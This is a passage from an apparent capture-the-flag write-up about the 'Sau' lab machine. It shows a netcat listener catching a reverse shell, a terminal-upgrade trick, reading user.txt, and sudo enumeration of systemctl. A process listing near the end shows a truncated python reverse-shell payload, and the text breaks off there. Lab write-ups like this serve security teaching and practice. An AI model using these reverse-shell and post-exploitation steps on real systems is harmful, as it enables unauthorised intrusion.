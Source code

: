 

    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.224 46168
    $ id
    uid=1001(puma) gid=1001(puma) groups=1001(puma)



I'll use the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q) to upgrade my shell:



    $ script /dev/null -c bash
    Script started, file is /dev/null
    puma@sau:/opt/maltrail$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    puma@sau:/opt/maltrail$ 



I'l grab `user.txt` from the puma user's home directory:



    puma@sau:~$ cat user.txt
    4353b8ab************************



## Shell as root

### Enumeration

The puma user can run some `systemctl` commands as root without a
password using `sudo`:



    puma@sau:~$ sudo -l
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service



Running this command prints the status of the service:



    puma@sau:~$ /usr/bin/systemctl status trail.service
    ● trail.service - Maltrail. Server of malicious traffic detection system
         Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
         Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
           Docs: https://github.com/stamparm/maltrail#readme
                 https://github.com/stamparm/maltrail/wiki
       Main PID: 891 (python3)
          Tasks: 10 (limit: 4662)
         Memory: 24.4M
         CGroup: /system.slice/trail.service
                 ├─ 891 /usr/bin/python3 server.py
                 ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
                 ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
                 ├─1244 sh                              
                 ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I…